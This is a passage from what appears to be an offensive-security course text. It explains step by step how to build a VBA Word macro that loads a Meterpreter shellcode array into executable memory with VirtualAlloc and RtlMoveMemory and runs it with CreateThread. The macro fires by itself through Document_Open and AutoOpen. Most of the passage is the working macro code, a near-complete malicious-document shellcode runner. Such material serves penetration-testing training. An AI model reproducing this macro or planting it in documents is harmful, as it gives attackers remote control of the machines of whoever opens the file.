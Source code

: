 > Listing 26 - Declare statement for CreateThread

Having declared the function, we may now call it. This line is pretty simple with only one variable for the start address of our shellcode buffer.

Now we can piece the entire VBA macro together:

```fence
res = CreateThread(0, 0, addr, 0, 0, 0)
```

> Listing 27 - Call statement for CreateThread

To summarize, we begin by declaring functions for the three Win32 APIs. Then we declare five variables, including a variable for our Meterpreter array and use *VirtualAlloc* to create some space for our shellcode. Next, we use *RtlMoveMemory* to put our code in memory with the help of a *For* loop. Finally, we use *CreateThread* to execute our shellcode.

```fence
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As LongPtr
    
    buf = Array(252,72,131,228,240,232,204,0,0,0,65,81,65,80,82,72,49,210,81,101,72,
    ...
    06,0,89,187,224,29,42,10,65,137,218,255,213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
